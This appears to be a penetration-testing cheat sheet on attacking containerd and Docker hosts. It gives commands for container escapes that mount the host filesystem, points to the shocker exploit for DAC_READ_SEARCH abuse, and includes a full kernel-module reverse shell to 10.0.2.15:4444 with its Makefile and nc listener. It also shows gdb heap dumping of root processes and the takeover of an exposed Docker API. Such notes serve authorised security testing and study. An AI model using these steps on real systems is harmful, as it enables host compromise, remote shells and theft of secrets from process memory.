

# Containerd Attacks

## 1. Use case -User privileges in a host which is running Containerd

* `ctr image list` Check containerd images&#x20;
* Next Start a container and add it to host machine&#x20;
  * `ctr run --mount type=bind,src=/,dst=/,options=rbind -t ubuntu:latest ubuntu bash`
  * After that point you can reach root file system.&#x20;

## 2. Use Case - Abusing DAC\_READ\_SEARCH Capability

* Start a container in root mode with privileges.
* &#x20;`ctr run --privileged --net-host -t ubuntu:latest ubuntu bash`
* Check `capsh --print`
  * And find cap\_dac\_read\_search
  * `mount`
  * Check /etc/hosts is mounted or not
  * if it is there use the code [http://stealth.openwall.net/xSports/shocker.c](http://stealth.openwall.net/xSports/shocker.c)
  * Change there main function in order to give argument and read anything in host system.&#x20;
  * 

## 3. Use Case - User privileges and Abusing SYS\_Module Capability

If there is a way of privs with user rights and taking root by using containers. Create containerd image there and check sys\_mod cap and after that reach root file system and heap of process there.&#x20;

`ctr image list`

`ctr run --privileged --net-host -t ubuntu:latest ubuntu bash`

Create that c file&#x20;

```

#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("Test");
MODULE_DESCRIPTION("Reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.0.2.15/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

Create Makefile&#x20;

```

obj-m +=reverse-shell.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean

```

`make`

Open another shell and run `nc -vnlp 4444`

`insmod reverse-shell.ko`

You have reached the root directories.

&#x20;**Reaching root process heaps with gdb**&#x20;

```
cat /proc/{PID Number}/maps
gdb --batch --pid {PID Number} -ex "dump memory heap.dump 0x55da28f1a000 0x55da28f3b000";
# take here heap section then

strings heap.dump
```


## 4. Use Case Docker port exposed on remote machine&#x20;

if there is open docker port in remote machine we can connect to there.&#x20;

* `export DOCKER_HOST=REMOTE_HOST_IP:2375`
* `docker run -it -v /:/host ubuntu:22.04 bash`
* `chroot /host`\
  \
  `Now we are in remote machine file system.`
